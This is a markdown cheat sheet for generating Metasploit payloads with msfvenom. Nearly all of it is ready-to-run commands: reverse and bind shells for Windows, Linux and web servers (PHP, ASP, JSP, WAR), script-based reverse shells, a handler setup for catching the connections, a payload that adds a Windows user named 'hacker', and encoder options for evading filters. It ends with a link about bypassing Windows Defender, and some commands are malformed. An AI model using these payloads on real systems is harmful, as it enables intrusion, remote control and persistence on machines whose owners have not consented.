 ## Creating a payload

```
msfvenom -p [payload] LHOST=[listeninghost] LPORT=[listeningport]
msfvenom -l payloads
msfvenom -p windows/x64/meterpreter_reverse_tcp --list-options
```


## Creating a payload with encoding

```bash
msfvenom -p [payload] -e [encoder] -f [formattype] -i [iteration] <var=value> -o outputfile
```

## Creating a payload using a template

```bash
msfvenom -p [payload] <var=value> -x [template] -f [formattype] -o outputfile
```

## Listening for MSfvenom Payloads:

```
msf5>use exploit/multi/handler  
msf5>set payload windows/meterpreter/reverse_tcp  
msf5>set lhost <IP>  
msf5>set lport <PORT>  
msf5> set ExitOnSession false  
msf5>exploit -j  
```

## Windows Payloads

```bash
msfvenom -p windows/powershell/reverse_tcp LHOST=IP LPORT=PORT -f exe -o shell.exe	

 msfvenom -p windows/powershell_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) msfvenom -p windows/powershell/bind_tcp RHOST= IP 
 msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe -o shell.exe	
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe-o shell.exe
```

## Linux Payloads

```bash
msfvenom -p linux/x86/shell/reverse_tcp LHOST=IP LPORT=PORT -f elf -oshell.elf	
msfvenom -p linux/x86/shell/bind_tcp RHOST=IP LPORT=PORT -f elf -o shell.elf	
msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf -o shell.elf	
msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf -o shell.elf
```

Add a user in windows with msfvenom: 

```bash
msfvenom -p windows/adduser USER=hacker PASS=password -f exe -o useradd.exe
```

## Web Payloads

PHP

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw -o shell.php

  cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

ASP
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp -o shell.asp
```

JSP

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw -o shell.jsp
```

WAR

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war-o shell.war
```

## Scripting Payloads

Python

```bash
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw -o shell.py
```

Bash

```bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw -o shell.sh
```

Perl

```bash
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw -o shell.pl
```


Creating an Msfvenom Payload with an encoder while **removing bad charecters:**

```bash
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x0A\x0D"
```

## Resources:

https://hacker.house/lab/windows-defender-bypassing-for-meterpreter/
